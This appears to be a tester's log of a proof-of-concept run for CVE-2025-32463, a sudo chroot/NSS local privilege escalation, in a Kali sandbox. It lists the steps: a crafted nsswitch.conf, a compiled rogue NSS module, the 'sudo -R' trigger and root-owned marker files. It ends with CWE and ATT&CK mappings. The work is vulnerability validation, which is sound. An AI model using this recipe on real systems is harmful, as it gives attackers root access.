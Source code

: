 
sudo_cve_2025_32463_poc_attempt1
[23:45:50]
PoC run for CVE-2025-32463 (sudo 1.9.17 chroot/NSS)
Timestamp: 2025-08-07
Environment: Kali sandbox (user)

Step 1: sudo version and non-interactive test
- Output:
  Sudo version 1.9.17
  sudo -n true -> sudo: a password is required

Steps 2-7 executed as user
- Prepared chroot at /tmp/chrootpwn
- Wrote /tmp/chrootpwn/etc/nsswitch.conf with:
    passwd: myhack files
    shadow: myhack files
    group: myhack files
    hosts: files myhack
- Created /tmp/libnss_myhack.c (constructor/destructor writing markers)
- Compiled to /tmp/libnss_myhack.so.2
  Note: `file` utility not present ("sh: 72: file: not found") but compile succeeded.
- Installed libnss_myhack.so.2 into chroot lib paths (/lib, /lib64, /usr/lib, /lib/x86_64-linux-gnu)

Trigger sudo with chroot:
- sudo -R /tmp/chrootpwn -u root /usr/bin/true -> prompts for password; errors:
    "sudo: a terminal is required..." and "sudo: a password is required"
- sudo -R /tmp/chrootpwn /usr/bin/id -> same interactive errors
  Despite auth errors, NSS module constructor/destructor executed (pre-auth load), per markers below.

Markers observed:
- Inside chroot constructor marker:
  -rw-r--r-- 1 root root 16 Aug  7 21:45 /tmp/chrootpwn/tmp/nss_poc_constructor
- Outside chroot destructor marker:
  -rw-r--r-- 1 root user 24 Aug  7 21:45 /tmp/nss_poc_destructor
  Contents: "destructor ran as root?\n"

Conclusion: SUCCESS. The malicious NSS module was dlopen'ed during sudo policy resolution while rooted inside the attacker-controlled chroot, and its destructor executed after sudo unpivoted, writing to the real /tmp as root. This demonstrates code execution as root outside the chroot pre-auth.

Notes/Errors:
- `file` command missing; non-critical.
- Sudo requested TTY/password; not needed for PoC since NSS load occurs before authentication.



CVE-2025-32463_framework_mappings
[23:51:27]
CWE: CWE-829 (Inclusion of Functionality from Untrusted Control Sphere), CWE-426 (Untrusted Search Path)
CAPEC: CAPEC-251 (Local Code Inclusion)
ATT&CK: T1068 (Exploitation for Privilege Escalation), T1129 (Shared Modules), T1574.006 (Hijack Execution Flow: Dynamic Linker Hijacking)
